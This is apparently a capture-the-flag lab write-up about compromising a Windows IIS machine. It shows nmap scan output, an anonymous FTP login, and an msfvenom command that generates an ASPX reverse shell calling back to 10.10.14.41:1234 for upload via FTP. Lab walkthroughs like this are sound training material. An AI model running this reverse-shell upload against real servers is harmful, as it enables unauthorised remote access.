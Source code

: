 ![image](https://user-images.githubusercontent.com/105310322/188014554-75a00454-e223-42b7-a37c-ef5753e187b5.png)

### Tools: Nmap, msfvenom

### Vulnerabilities: FTP, Unpatched system

Nmap reveals ftp and http are open. The http does not have much going on and gobuster didn't return anything potential.

However nmap says that ftp allows for anonymous logon.

```console
└──╼ [★]$ sudo nmap -p- -sS -sC -sV 10.129.51.128
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 18:02 BST
Nmap scan report for 10.129.51.128
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 175.43 seconds
```
We confirm that we can login and look around but there isn't much except that its running aspnet. This leads me to believe that I can upload a reverse shell.

```console
└──╼ [★]$ ftp 10.129.51.128
Connected to 10.129.51.128.
220 Microsoft FTP Service
Name (10.129.51.128:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
Craft a quick reverse shell using msfvenom.

```console
└──╼ [★]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.41 lport=1234 -f aspx -o exploit.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2747 bytes
Saved as: exploit.aspx
```
Now we can try and upload it to FTP and it works!
